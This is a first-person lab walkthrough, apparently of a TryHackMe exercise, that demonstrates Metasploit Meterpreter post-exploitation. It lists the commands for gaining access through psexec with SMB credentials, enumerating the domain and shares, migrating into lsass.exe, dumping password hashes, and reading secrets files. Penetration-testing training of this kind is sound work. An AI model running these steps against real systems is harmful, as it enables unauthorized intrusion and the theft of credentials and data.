 # Metasploit Meterpreter: Post-Exploitation

This guide explores the use of Metasploit’s Meterpreter for post-exploitation activities, emphasizing enumeration, file retrieval, and credential extraction. It also integrates the provided questions to enhance understanding of each step.

## Step 1: Initial Access with psexec Module
Objective: Gain access to the target system using the SMB psexec module

1.Load the psexec Module:

I initiated the attack using the SMB psexec module:

- use exploit/windows/smb/psexec

2.Set Necessary Options:

I configured the essential settings, including the target host (RHOST), SMB credentials (SMBUser and SMBPass), and the local IP (LHOST):

- set RHOST 10.10.129.7
- set SMBUser ballen
- set SMBPass Password1
- set LHOST 10.10.13.1

3.Run the Exploit:

After configuring, I launched the exploit:

- run

This successfully opened a Meterpreter session on the target machine.

## Step 2: Retrieving System Information 
Objective: Identify key details of the compromised system.

1.Execute System Info Command:

I ran the following command to gather information:

- sysinfo

The output confirmed the computer name as ACME-TEST, and the domain as FLASH, running on x64 architecture.

## Step 3: Domain Enumeration
Objective: Enumerate details about the domain and its controller.

1.Use Domain Enumeration Module:

I loaded the enum_domain module:

- use post/windows/gather/enum_domain

Configured it with the active session:

- set session 1

2.Run the Enumeration:

I executed the module:

- run

The output provided details including the domain (FLASH.local), the NetBIOS name (FLASH), and the domain controller (ACME-TEST).

## Step 4: Enumerating SMB Shares
Objective: Identify shared resources on the compromised system.

1.Search and Use the SMB Share Enumeration Module:

I searched for the relevant module:

- search enum_shares
- use post/windows/gather/enum_shares

2.Set and Execute:

Set the session:

- set session 1

Ran the module to gather share details:

- run

The output displayed shares like SYSVOL, NETLOGON, and a custom share speedster.

## Step 5: Process Management and Migration
Objective: List processes and migrate Meterpreter to a stable process.

1.List All Processes:

To view active processes, I executed:

- ps

I identified critical processes such as lsass.exe.

2.Migrate to a Stable Process:

I chose lsass.exe (PID: 772) for migration:

- migrate 772

This migration stabilizes the session and may grant access to sensitive information.

## Step 6: Dumping Password Hashes
Objective: Extract password hashes from the compromised system.

1.Run the Hash Dump Command:

Using Meterpreter:

- hashdump

The command output hashes for several users including Administrator, ballen, and jchambers.

## Step 7: File Search and Retrieval
Objective: Locate and read sensitive files on the system.

1.Search for Files:

I searched for a specific file:

- search -f secrets.txt

The file was located at:

- c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt

2.Read File Contents:

I accessed the file using:

- cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"

## Step 8: Further File Discovery
Objective: Search for additional sensitive files.

1.Search for Another File:

I ran another search:

- search -f realsecret.txt

Found the file at:

- c:\inetpub\wwwroot\realsecret.txt

2.Access the File:

Read the file:

- cat "c:\inetpub\wwwroot\realsecret.txt"


---------------------------------------------

Summary
This walkthrough demonstrates the effective use of Metasploit's Meterpreter for advanced post-exploitation. Each step showcases the versatility of the tool, from enumeration and credential extraction to file system exploration and data retrieval. Mastering these techniques is essential for anyone aspiring to become a proficient pentester.

Key Takeaways:

Exploiting SMB services and valid credentials can lead to significant access in a target environment.
Post-exploitation tasks such as process migration, domain enumeration, and hash dumping provide deeper control and insight.
The ability to search for and retrieve files reveals the true value of accessing sensitive data

For further resources:

Metasploit Framework Documentation: In-depth details and guidance.
TryHackMe Metasploit Room: Hands-on exercises to practice Metasploit skills.























